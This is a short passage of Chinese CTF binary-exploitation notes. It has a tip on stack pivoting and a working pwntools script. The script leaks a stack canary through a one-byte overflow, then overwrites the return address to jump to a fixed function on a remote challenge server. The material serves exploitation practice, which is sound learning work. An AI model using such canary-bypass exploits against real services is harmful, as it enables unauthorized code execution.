 ![Untitled](Stack%2095229ecbb2f1486a9533db3b1ce3a54d/Untitled%202.png)

### 小技巧

- 栈迁移的前置条件可以不是必须要`leave`指令，在将`ebp`进行覆盖以后就算是进行栈迁移了，因为后面返回的函数结束之后就会进入到我们想要的地方

## canary相关

```bash
from pwn import *

context.log_level='debug'

io=remote('8.130.35.16',55000)
#io = process("./pwn")
io.recvuntil('plz?\n')
payload = b'a'*(0x20-0x8+0x1)

io.send(payload)

canary = io.recvuntil(b".")[-8:-1].rjust(8,b'\x00')
canary = u64(canary)
print(hex(canary))
io.send('y')
io.recvuntil(b'plz.')

payload = b'a'*(0x20-0x8)+p64(canary)+cyclic(0x8)+p64(0x401231)
io.send(payload)
io.interactive()
```
